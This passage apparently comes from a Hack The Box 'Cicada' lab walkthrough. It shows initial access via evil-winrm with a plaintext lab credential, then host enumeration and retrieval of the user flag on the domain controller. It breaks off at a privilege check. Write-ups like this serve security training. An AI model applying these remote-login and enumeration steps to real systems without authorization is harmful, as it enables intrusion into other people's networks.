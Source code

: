 ## Initial access
Now we can try to logon to the target with `evil-winrm` since we got some valid credentials.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ evil-winrm -i $ip -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'                            
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 

```
We got initial access to the system. Let's capture the details like it was for the OSCP exam.
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> hostname
CICADA-DC
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::1a4
   IPv6 Address. . . . . . . . . . . : dead:beef::5d1e:4525:a0e9:86be
   Link-local IPv6 Address . . . . . : fe80::e3b2:74f9:e015:c6e4%6
   IPv4 Address. . . . . . . . . . . : 10.129.231.149
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7437%6
                                       10.129.0.1
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> dir ../desktop


    Directory: C:\Users\emily.oscars.CICADA\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         3/31/2025  11:50 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> type ../desktop/user.txt
<---- SNIP USER FLAG ---->
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 

```
Now we should check what privileges this user has.
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

```